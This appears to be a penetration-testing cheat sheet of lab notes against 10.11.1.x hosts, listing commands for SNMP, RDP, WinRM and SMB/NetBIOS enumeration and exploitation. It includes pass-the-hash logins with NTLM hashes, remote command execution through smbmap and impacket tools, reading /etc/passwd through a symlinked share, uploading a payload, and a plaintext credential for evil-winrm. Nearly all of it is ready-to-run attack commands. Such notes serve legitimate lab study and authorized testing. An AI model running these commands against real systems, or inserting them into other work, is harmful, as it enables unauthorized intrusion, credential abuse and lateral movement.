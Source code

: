 // SNMP (:161/udp)- PROBING
snmpwalk -c public -v1 -t 10 10.11.1.115
snmp-check -c public -v1 10.11.1.115
snmpenum -c public -v1 <IP> 1
snmpenum -t <IP>
onesixtyone -c private -i 10.11.1.115
metasploit use auxiliary/scanner/snmp/snmp_enum

// RDP (:3389/tcp) - PROBING & EXPLOITATION:
rdesktop <IP> -u <user> -p <password> -5 -K -r clipboard:CLIPBOARD -g 90% -r disk:E:=/tmp
xfreerdp /u:<USER> /p:<PASSWORD> /v:<IP> 
xfreerdp /u:<USER> /pth:<NTLM> /v:<IP> 

// WINRM (:5985/tcp)
evil-winrm -i 10.11.1.221 -u john -p easyas123

// SMB & NETBIOS (:139/tcp|:445/tcp) - PROBING & EXPLOITATION
nmap -p139,445 --script smb-vuln* <IP>
smbver.sh <IP> <PORT>
ngrep -i -d <INTERFACE> 's.?a.?m.?b.?a.*[[:digit:]]' &
nmblookup -A <IP> 										
enum4linux -a <IP>
nbtscan <IP>
smbmap -H <IP>
smbmap -u null -p "" -H 1<I{> -P <PORT> -R 2>&1
smbmap -d <DOMAIN> -u <USER> -p <PASSWORD> -H <IP>
smbmap -R <FOLDERNAME> -H <IP>
smbmap -u <USER> -p '<PASSWORD>' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H <IP> 	# RCE
echo exit | smbclient -L \\\\<IP>
smbclient -L <IP>
smbclient //<IP>/tmp
smbclient \\<IP>\IPC$ -U john
smbclient //MOUNT/ahare -l target -N
smbclient \\\\<IP>\\\\<SHARE>
smbclient -L -N -I <IP>
smbclient \\\\<IP>\\\<SHARE> --port=<PORT> --user=<USER> # e.g., guest, etc.
./smbclient //10.11.1.136/'Bob Share' -N 
	symlink / rootfs
smbclient //10.11.1.136/'Bob Share' -c 'lcd /home/kali/Desktop/; cd /rootfs/etc; get passwd' -N
smbclient //10.11.1.231/docs -c 'lcd /home/kali/Desktop/; cd /postfix; get changelog.Debian.gz' -N
smbclient //10.11.1.146/SusieShare -c 'lcd /home/kali/Desktop/shell.exe; put libpoc.so' -N
smbclient -N //10.11.1.231/docs
crackmapexec smb <IP>
crackmapexec smb <IP> -u <USER> -p <PASS> --shares 
psexec.py administrator@10.11.1.220
smbexec.py <USER>@<IP> -hashes <NTLM>
pth-winexe -U <USER>%<NTLM>:<NTLM> 
pth-winexe -U <USER> //<IP> cmd
impacket-wmiexec <USER>@<IP> -hashes <NTLM>:<NTLM>
impacket-wmiexec <DOMAIN>/<USER>:<NTLM>@<IP>
impacket-smbserver share /home/kali
impacket-smbserver share ~/Desktop
winexe -U <USER> //<IP> "cmd.exe" --system
